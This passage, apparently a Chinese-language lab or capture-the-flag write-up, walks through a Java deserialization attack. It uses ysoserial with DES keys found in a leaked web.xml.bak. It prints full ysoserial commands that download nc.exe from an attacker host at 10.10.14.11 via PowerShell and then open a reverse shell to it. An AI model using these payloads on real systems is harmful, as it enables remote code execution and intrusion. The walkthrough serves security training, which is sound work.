 ![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPOdlxic4DONJlJcYQiaPeiaVUkakBfVUMM2rbwC1bUvD6GBdGwHEEibt3Vk6p0xqGQeSVOQAxcIw5pYA/640?wx_fmt=png)

在前面挂在出的盘里 web.xml.bak 文件发现了 DES 和 macSHA1 密匙...

这里需要利用：

```
[ysoserial](https://github.com/frohoff/ysoserial)
```

集成工具进行生成 jave 反序列化的 shellcode... 功能很多  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPOdlxic4DONJlJcYQiaPeiaVUPpzmIQsfwsyJYpuSEK3O3wOmdqRAFFEglFLiabrv1YyAns01rGEFAiaA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPOdlxic4DONJlJcYQiaPeiaVU5uMZzu7Qpc0MTTQXIvmMLsnJTsM0kt5WY1yIL2ibl6L3vWBjmVt2Ficw/640?wx_fmt=png)

准备好了生成 shellcode 的工具...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPOdlxic4DONJlJcYQiaPeiaVUhJ28VUiaJa9SmHwendtrZDJAia99aGJuwPwpWcecibSKcRqo9e5licN3og/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPOdlxic4DONJlJcYQiaPeiaVU5ibZkNqom91nRse2iaa9NaCCqSZHVoOe3HOGz394ff3BgQDeyYoPEImQ/640?wx_fmt=png)

```
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 'cmd.exe /c powershell -c Invoke-WebRequest -Uri "http://10.10.14.11/nc.exe" -OutFile "C:\windows\system32\spool\drivers\color\nc.exe"' > exploit
```

利用 ysoserial 最新版集成生成 shellcode...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPOdlxic4DONJlJcYQiaPeiaVU6ksicz4XOAQlg1TumLianV8CdqBSZIVH1GJafvps0mWPBibVicQUlfagkg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPOdlxic4DONJlJcYQiaPeiaVU2YA2xibmsXMwT1DMficxD4Eicyxqnn1djgLiaImwVSW84T3vqibawvt6DzQ/640?wx_fmt=png)

然后利用 DES 密匙简单的 python 代码生成 base64 值...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPOdlxic4DONJlJcYQiaPeiaVUIfsQMwHibPaeGqiacLWKbDcEDLrBGeXvYl8JxYmDauaHBBibiaQib7fMa4Q/640?wx_fmt=png)

成功注入...NC 上传成功...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPOdlxic4DONJlJcYQiaPeiaVUt3cEztGJicY1sVkt1m9Kx1yBjKtAXkLIyLPqxymwRSzNqJQicsDUiag4g/640?wx_fmt=png)

```
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 'cmd.exe /c c:\windows\system32\spool\drivers\color\nc.exe -nv 10.10.14.11 443 -e cmd.exe' > exploit2
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPOdlxic4DONJlJcYQiaPeiaVUZxKuZKHz1Q2AsHjgz2tcdNjbGuuQdat9ohoUMuJgwHa50KdvRJq7Jw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPOdlxic4DONJlJcYQiaPeiaVU3jzdIicMeSwkLme4uor57FWiaetnhME0yJicH9Kfd0QSnH5C6k6N4IdtQ/640?wx_fmt=png)

按照前面同理，写入 shellcode 出发 nc 即可获得反向外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPOdlxic4DONJlJcYQiaPeiaVUKzeN9bnG8Bj4w7MjGgQ7oxxf7gHoYkTWs2icXosXqJErmGb9Fkc592Q/640?wx_fmt=png)
